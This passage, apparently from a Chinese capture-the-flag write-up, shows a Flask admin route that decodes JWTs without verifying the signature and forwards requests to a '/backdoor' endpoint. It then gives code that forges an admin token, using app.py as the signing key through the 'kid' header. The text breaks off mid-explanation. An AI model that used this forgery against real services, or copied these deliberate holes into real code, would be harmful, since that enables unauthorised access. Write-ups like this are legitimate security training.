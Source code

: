 ```Python
    try:
        payload = jwt.decode(token, key, algorithms=["HS256"])
        return True
    except:
        return False
    
@app.route('/admin', methods=['GET', 'POST'])
def admin():
    token = request.cookies.get('token')
    if token and verify_token(token):
        if request.method == 'POST':
            if jwt.decode(token, algorithms=['HS256'], options={"verify_signature": False})['isadmin']:
                forward_url = "python-backend:8080"
                conn = http.client.HTTPConnection(forward_url)
                method = request.method
                headers = {key: value for (key, value) in request.headers if key != 'Host'}
                data = request.data
                path = "/"
                if request.query_string:
                    path += "?" + request.query_string.decode()
                if headers.get("Transfer-Encoding", "").lower() == "chunked":
                    data = "{}\r\n{}\r\n0\r\n\r\n".format(hex(len(data))[2:], data.decode())
                if "BackdoorPasswordOnlyForAdmin" not in data:
                    return "You are not an admin!"
                conn.request(method, "/backdoor", body=data, headers=headers)
                return "Done!"
            else:
                return "You are not an admin!"
        else:
            if jwt.decode(token, algorithms=['HS256'], options={"verify_signature": False})['isadmin']:
                return "Welcome admin!"
            else:
                return "You are not an admin!"
    else: 
        return redirect("/login", code=302)
```

密钥文件是可以自己指定，因此利用`app.py`：

```python
import jwt
user_info = {
    "username": "admin",
    "isadmin": True
}
key = open('./frontend/src/app.py').read()
payload = jwt.encode(user_info, key, algorithm="HS256", headers={"kid": "app.py"})
```

题目前后端对`data`的要求不一致：
